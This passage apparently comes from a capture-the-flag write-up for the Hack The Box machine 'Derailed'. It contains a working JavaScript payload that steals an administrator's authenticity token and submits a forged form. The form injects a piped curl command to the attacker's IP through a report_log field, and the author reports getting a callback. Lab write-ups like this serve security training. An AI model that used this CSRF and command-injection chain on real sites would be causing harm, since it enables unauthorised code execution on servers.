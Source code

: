 Retrieve the 'authenticity_token' value, as we need it to verify that we are indeed the administrator.
Send the POST request with an edited ```report_log``` value.
Add a small delay (e.g., 3 seconds) to ensure that the page fully loads before attempting to find the required elements.
I did some research on Ruby vulnerabilities and came across a few informative articles: [```Exploit```](https://bishopfox.com/blog/ruby-vulnerabilities-exploits)

Potentially, this form might be using the ```open``` function, which is vulnerable to Remote Code Execution ```(RCE)``` due to a deserialization exploit. 

***
## **<strong><font color="Brown">Shell as Alice</font></strong>**


To test this hypothesis, I created a quick script:

```javascript
var xmlHttp = new XMLHttpRequest();
xmlHttp.open( "GET", "http://derailed.htb:3000/administration", true);
xmlHttp.send( null );

setTimeout(function() {
    var doc = new DOMParser().parseFromString(xmlHttp.responseText, 'text/html');
    var token = doc.getElementById('authenticity_token').value;
    var newForm = new DOMParser().parseFromString('<form id="badform" method="post" action="/administration/reports">    <input type="hidden" name="authenticity_token" id="authenticity_token" value="AUTHENTICITY_TOKEN_HERE" autocomplete="off">    <input id="report_log" type="text" class="form-control" name="report_log" value="REPORT_LOG_HERE" hidden="">    <button name="button" type="submit">Submit</button>', 'text/html');
    document.body.append(newForm.forms.badform);
    document.getElementById('badform').elements.report_log.value = '|curl http://10.10.14.199/rcecfmed';
    document.getElementById('badform').elements.authenticity_token.value = token;
    document.getElementById('badform').submit();
}, 3000);
```

NOTE : In this script, you need to modify the variables ```ip```, ```authenticity_token```, and ```report_log```. You can find these in the administrator content.


When waiting around, I eventually got a callback via the curl command I injected.

<img src="https://raw.githubusercontent.com/Mostafatoumi/Mostafatoumi.github.io/main/assets/img/favicons/HackTheBox/Derailed/14.png" >
